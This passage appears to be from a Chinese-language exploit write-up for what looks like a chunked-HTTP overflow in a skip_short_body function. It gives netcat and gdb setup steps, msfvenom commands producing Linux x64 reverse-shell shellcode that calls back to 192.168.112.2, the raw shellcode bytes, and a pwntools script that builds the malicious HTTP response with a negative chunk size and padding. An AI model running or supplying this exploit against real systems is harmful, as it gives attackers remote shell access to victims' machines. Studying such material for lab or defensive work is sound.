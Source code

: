 

```python
#A窗口 监听端口
nc -nvlp 6324 < exp1

#B窗口 调试
set args 127.0.0.1:6324
b skip_short_body
或
b *0x000000000041f18d

#C窗口 连接
nc 127.0.0.1 6324
```



按照这个步骤执行，一直没成功，不知道是什么原因，从头再来执行一遍。

(1)生成shellcode

msf在kali中有，且ubuntu中安装比较麻烦，故不再安装。

先msf进入，再输入如下语句生成sc。

```python
msf5 > msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.112.2 LPORT=6324 -f c

Payload size: 74 bytes
Final size of c file: 335 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x18\xb4\xc0\xa8\x70\x02\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

msf5 > msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.112.2 LPORT=6789 -f c

Payload size: 74 bytes
Final size of c file: 335 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x1a\x85\xc0\xa8\x70\x02\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

```

如果改变端口的值，只有第二段有略微不同。自己采用6789端口，即第二段sc

```python
from pwn import *

payload = """HTTP/1.1 401 Not Authorized
Content-Type: text/plain; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

-0xFFFFF000
"""
sc = "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48\xb9\x02\x00\x1a\x85\xc0\xa8\x70\x02\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

payload += sc + (568-len(sc))*'A'
```